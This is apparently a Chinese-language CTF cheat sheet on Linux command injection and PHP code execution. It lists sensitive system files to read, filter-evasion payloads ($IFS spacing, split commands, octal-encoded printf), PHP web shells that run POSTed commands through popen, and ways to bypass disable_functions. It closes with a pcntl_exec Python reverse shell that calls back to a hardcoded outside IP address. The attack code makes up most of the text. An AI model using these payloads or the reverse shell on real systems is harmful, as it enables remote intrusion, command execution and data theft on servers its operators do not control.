 ### 1-Linux系统利用

#### 常用文件夹

```shell
/etc/passwd   #用户信息
/var/www/html/index.php #常见网页文件夹
/proc/self/cmdline   #存储输入过的命令
/var/log/nginx/access.log #nginx访问日志
```

#### 命令注入

```shell
cd /flag;cat flag.php #堆叠指令
cat /flag | base64
l\s
ca\t
base64 flag.txt
#展示当前文件夹下所有文件内容
cat$IFS$9`ls`
#空格替换
<  <> %09(tab)、%20、$IFS$9、$IFS$1、${IFS}、$IFS
#分隔符;
%0a
#执行命令source用.替换，?时通配符
. /??p/p?p??????
```

#### 读取文件内容

```shell
cat
tac
nl flag.txt
base64 flag.txt
#linux中的`printf`函数支持字符串的8进制表示的读入：
$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")
\42\143\141\164\40\57\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160
#等价于
$(printf${IFS}"cat /flag_1s_here/flag_831b69012c67b35f.php")
```



### 2-Getshell中遇到disable Functions的处理

详解见：https://www.freebuf.com/articles/network/263540.html

很多运维人员会禁用PHP的一些“危险”函数，例如eval、exec、system等，将其写在php.ini配置文件中，就是我们所说的disable_functions了

#### 黑名单绕过，使用不常用函数尝试执行shell

exec()

```php
<?php
echo exec('whoami');
?>
```

shell_exec()

```php
<?php
echo shell_exec('whoami');
?>
```

system()

```php
<?php
system('whoami');
?>
```

passthru()

```php
<?php
passthru("whoami");
?>
```

popen()

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

proc_open()

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

#### 利用pcntl_exec函数

还有一个比较常见的易被忽略的函数就是pcntl_exec。

**使用条件：**

**PHP安装并启用了pcntl插件**

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

利用pcntl_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```



### 3-RCE中的技巧
